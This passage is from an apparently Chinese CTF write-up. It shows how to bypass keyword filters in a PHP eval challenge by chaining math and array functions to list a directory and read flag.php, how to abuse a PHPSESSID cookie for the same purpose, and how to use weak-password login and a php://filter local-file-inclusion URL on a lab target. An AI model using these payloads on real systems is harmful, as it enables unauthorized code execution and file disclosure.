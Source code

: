    ```
   phpversion()   回显 string(11) "7.3.10-1+b1"
   floor(phpversion())   回显 float(7) 
   sqrt(floor(phpversion()))  回显 float(2.6457513110646) 
   tan(floor(sqrt(floor(phpversion())))) 回显 float(-2.1850398632615) 
   cosh(tan(floor(sqrt(floor(phpversion()))))) 返回4.5017381103491
   sinh(cosh(tan(floor(sqrt(floor(phpversion())))))) 返回45.081318677156
   ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))
   回显 46
   chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))
   回显 string(1) "." 
   next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))
   回显 string(2) ".." 
   ```

2. 可以看到 `flag.php` 是倒数第二个值，假设是倒数第一个我们可以用end()，但是并没有一个操作数组的函数能够输出数组的倒数第二个值。这里用嵌套函数实现

   ```
   array_reverse()+next()
   next(array_reverse(scandir(pos(localeconv()))))
   
   array_rand()+array_flip()
   随机读+键和值互换
   var_dump(array_rand(array_flip(scandir(current(localeconv())))));
   ```

3. 读文件

   因为et被ban了，所以不能使用``file_get_contents()``，但是可以可以使用``readfile()``或``highlight_file()``以及其别名函数``show_source()``

第二种方法是利用PHPSESSION

```
PHPSESSION=flag.php
session_id(session_start()) => flag.php
```

通过飘零师傅的文章可以知道，题目虽然ban了 `hex` 关键字，导致 `hex2bin()` 被禁用，但是我们可以并不依赖于十六进制转ASCII的方式，因为 `flag.php` 这些字符是 `PHPSESSID` 本身就支持的。

使用 `session`之前需要通过 `session_start()` 告诉PHP使用session，php默认是不主动使用session的。

`session_id()` 可以获取到当前的session id。

因此我们手动设置名为 `PHPSESSID` 的cookie，并设置值为 `flag.php`

## 0x03 [GXYCTF2019]BabysqliV3.0

登陆界面弱密码爆破

admin password

进入后台可以上传文件

根据url试了一下有没有LFI

```
http://bb0e8107-18e7-4a15-9b48-c7c4c72cfa73.node3.buuoj.cn/home.php?file=php://filter/convert.base64-encode/resource=upload
```
